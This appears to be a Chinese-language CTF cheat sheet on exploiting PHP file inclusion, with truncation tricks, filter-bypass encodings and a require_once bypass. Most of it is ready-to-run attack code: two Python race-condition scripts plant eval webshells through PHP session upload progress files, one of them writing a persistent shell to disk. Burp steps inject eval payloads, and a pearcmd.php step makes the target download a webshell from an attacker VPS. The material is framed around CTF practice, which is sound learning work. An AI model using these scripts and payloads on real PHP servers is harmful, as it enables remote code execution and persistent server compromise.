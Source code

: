 ## 字符串截断

```
用%00 截断(php<5.3.4)

用垃圾字符 . / 进行截断（php版本小于5.2.8）

用? 截断(要求：allow_url_fopen On  allow_url_include On)

include($c.".php");对伪协议没有影响，照样可以用data://,<?php ?>进行闭包
```

## 条件竞争文件包含

[PHP: Session 上传进度 - Manual](https://www.php.net/manual/zh/session.upload-progress.php)

简单来说：当session.upload_progress.enabled开启时（默认开启），但session.upload_progress.cleanup默认开启，即POST的数据一旦被读完，就会被清空，session.upload_progress.prefix，session.upload_progress.name会使键名可控，

session可能的位置：

```
/var/lib/php/
/var/lib/php/sessions/
/tmp/
/tmp/sessions/
```

可采用bp或脚本，抢在数据被清空，先进行文件包含

**bp**

搭建网站然后抓包

```
<!DOCTYPE html>
<html>
<body>
<form action="http://xxxxxxx:8080/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

添加`Cookie:PHPSESSID=flag`，在`Content-Disposition:... PHP_SESSION_UPLOAD_PROGRESS`下面两行增加`<?php @eval($_POST[0]);?><?php phpinfo();?>`

最后抓包靶机?file=/tmp/sess_flag，然后post命令即可

**脚本**

```
import threading
import io
import requests

url='http://e452861c-2e24-45d7-85cb-081b143cf342.challenge.ctf.show:8080/'
sessionid='xxx'
def write(session):
    fileBytes=io.BytesIO(b'a'*1024*50)
    while True:
        response=session.post(url,
        data={'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'},
        cookies={'PHPSESSID':sessionid},
        files={'file':('xxx.jpg',fileBytes)}
        )
        #printf(response)
def read(session):
    data = {'1': "file_put_contents('/var/www/html/2.php','<?php eval($_POST[2]);?>');"}
    while True:
        response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,cookies={'PHPSESSID':sessionid})
        response2=session.get(url+'2.php')
        if response2.status_code==200:
            print('OK')

if __name__=='__main__':
    event=threading.Event()
    with requests.session() as session:
        for i in range(5):#根据实际情况调整进程
            threading.Thread(target=write,args=(session,)).start()
        for i in range(10):
            threading.Thread(target=read,args=(session,)).start()
    event.set()#初始化
```

有时候可能无法用file_put_contents函数，则用以下脚本

```
import io

import requests
import threading  # 多线程

from cffi.backend_ctypes import xrange

sessid = '0'
target = 'http://1.14.71.254:28592/'
file = 'ph0ebus.txt'  # 上传文件名
f = io.BytesIO(b'a' * 1024 * 50)  # 文件内容，插入大量垃圾字符来使返回的时间更久，这样临时文件保存的时间更长


def write(session):
    while True:
        session.post(target, data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_GET["cmd"]);?>'},
                     files={'file': (file, f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post(
            f"{target}?mode=foo&file=/tmp/sess_{sessid}&cmd=system('cd /;ls;cat nssctfasdasdflag');")
        if file in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+]retry")
            # print(resp.text)


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in xrange(1, 30):  # 每次调用返回其中的一个值，内存空间使用极少，因而性能非常好
            threading.Thread(target=write, args=(session,)).start()
            # target：在run方法中调用的可调用对象，即需要开启线程的可调用对象，比如函数或方法；args：在参数target中传入的可调用对象的参数元组，默认为空元组()
        for i in xrange(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()

```

## 关键词绕过

如果题目是include的话还可以url编码来绕过，因为include会自动url解码一次

```
php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=index.php
```

## opcache缓存

https://xz.aliyun.com/t/223?time__1311=Cqjhq%2BOGCD8KDsD7G3OqGwqQqOxfxrbD&alichlgref=https%3A%2F%2Fxiaolong22333.top%2F

## 文件包含中的RCE



## 绕过包含次数限制

我们知道`include_once` `require_once`对于同一个文件只能包含一次，有没有办法多次包含呢？

WMCTF2020 make php great again 2.0这个题：

```javascript
<span class="hljs-meta">&lt;?php</span>
<span class="hljs-keyword">require_once</span>(<span class="hljs-string">'flag.php'</span>);
<span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'content'</span>])) {
    <span class="hljs-variable">$content</span> = <span class="hljs-variable">$_GET</span>[<span class="hljs-string">'content'</span>];
    <span class="hljs-keyword">require_once</span>(<span class="hljs-variable">$content</span>);
} 
```

复制

已经包含了flag.php一次了，那么就没办法继续包含它了。解题方法如下：

```javascript
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

复制

路径中的`/proc/self/root`就表示`/` 所以`/proc/self/root/proc/self/root···`就一直表示`/`路径。至于为什么可以这样，可以看[php源码分析 require_once 绕过不能重复包含文件的限制](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.anquanke.com%2Fpost%2Fid%2F213235&source=article&objectId=2145160)的分析。

## pearcmd.php

[Docker PHP裸文件本地包含综述 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

可以看看p神的文章

在服务器上启动

```
<?php
echo 'hello <?php phpinfo();?> <?php @eval($_POST[\'shell\']);?>';
?>
```

然后用pear中的download上传即可

```
/?file=peclcmd&+download+http://vps/d.php
```

然后正常命令执行即可

